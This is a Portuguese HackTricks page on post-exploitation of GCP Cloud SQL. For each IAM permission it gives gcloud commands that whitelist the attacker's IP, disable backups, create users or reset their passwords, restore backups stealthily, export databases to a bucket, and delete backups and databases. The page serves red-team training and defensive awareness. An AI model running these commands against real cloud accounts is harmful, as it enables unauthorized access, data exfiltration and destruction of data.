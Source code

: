 # GCP - Cloud SQL Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Cloud SQL

Para mais informações sobre Cloud SQL, confira:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para se conectar aos bancos de dados, você **só precisa de acesso à porta do banco de dados** e saber o **nome de usuário** e a **senha**, não há requisitos de IAM. Portanto, uma maneira fácil de obter acesso, supondo que o banco de dados tenha um endereço IP público, é atualizar as redes permitidas e **permitir que seu próprio endereço IP acesse-o**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
É também possível usar **`--no-backup`** para **interromper os backups** do banco de dados.

Como esses são os requisitos, não tenho certeza sobre quais são as permissões **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se você souber, envie um PR!

### `cloudsql.users.list`

Obtenha uma **lista de todos os usuários** do banco de dados:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Esta permissão permite **criar um novo usuário dentro** do banco de dados:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Esta permissão permite **atualizar o usuário dentro** do banco de dados. Por exemplo, você poderia mudar sua senha:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups podem conter **informações sensíveis antigas**, então é interessante verificá-las.\
**Restaurar um backup** dentro de um banco de dados:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para fazê-lo de uma maneira mais furtiva, é recomendável criar uma nova instância SQL e recuperar os dados lá em vez de nas bases de dados atualmente em execução.

### `cloudsql.backupRuns.delete`

Esta permissão permite excluir backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporte um banco de dados** para um Bucket do Cloud Storage para que você possa acessá-lo a partir daí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar um banco de dados** (sobrescrever) de um Bucket do Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Excluir um banco de dados da instância do db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
